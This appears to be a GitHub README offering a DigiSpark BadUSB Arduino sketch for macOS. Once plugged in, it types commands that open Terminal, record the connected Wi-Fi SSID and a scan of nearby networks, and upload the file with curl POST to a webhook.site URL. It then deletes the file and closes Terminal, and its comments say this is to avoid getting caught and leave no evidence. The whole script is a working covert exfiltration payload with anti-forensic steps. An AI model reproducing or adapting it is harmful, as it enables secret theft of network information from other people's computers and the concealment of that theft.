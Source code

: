 # Wi-Fi Name

#### This script extracts the Wi-Fi SSID the host is connected to and pushes that and the local wifi networks to an online website.

### Code

```c
#include "DigiKeyboard.h"
#define MOD_CMD_LEFT 0x00000008 //marks the keyboard location for the Command key
boolean hack = true;

void setup() {
  // put your setup code here, to run once:
}

void loop() {
  // put your main code here, to run repeatedly:
  if (hack == true){
    DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_CMD_LEFT); //Space + Command Keys
    DigiKeyboard.delay(500); //5 milisecond delay
    DigiKeyboard.print("Terminal"); //Opens the Terminal
    DigiKeyboard.delay(300);
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("cd /tmp"); //Goes to the Temporary Directory
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(300);
    DigiKeyboard.print("echo 'This computers connected SSID is:' >> wifi.txt"); //Goes to the Temporary Directory
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(300);
    DigiKeyboard.print("/Sy*/L*/Priv*/Apple8*/V*/C*/R*/airport -I | awk '/ SSID:/ {print $2}' >> wifi.txt"); //https://apple.stackexchange.com/a/176703
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(300);
    DigiKeyboard.print("/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s >> wifi.txt"); //Uses the Apple 80211 Framework to get the local Wi-Fi netoworks
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000);
    DigiKeyboard.print("curl -X POST -F data=@wifi.txt https://webhook.site/"); //Uses curl to export; Enter your own webhook.site here
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(10000); //10 seconds in case of wifi bottleneck
    DigiKeyboard.print("rm wifi.txt");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.sendKeyStroke(KEY_Q, MOD_CMD_LEFT); //Command + Q; To close the terminal to avoid getting caught.
    hack = false; //Changes the boolean to false
  }
}
```

### Notes

This code can be modified at line 30 to push the file to another website using the POST feature of curl. This also makes a clean exit on macOS, by deleting the file and exiting the terminal so there is no hard evidence.

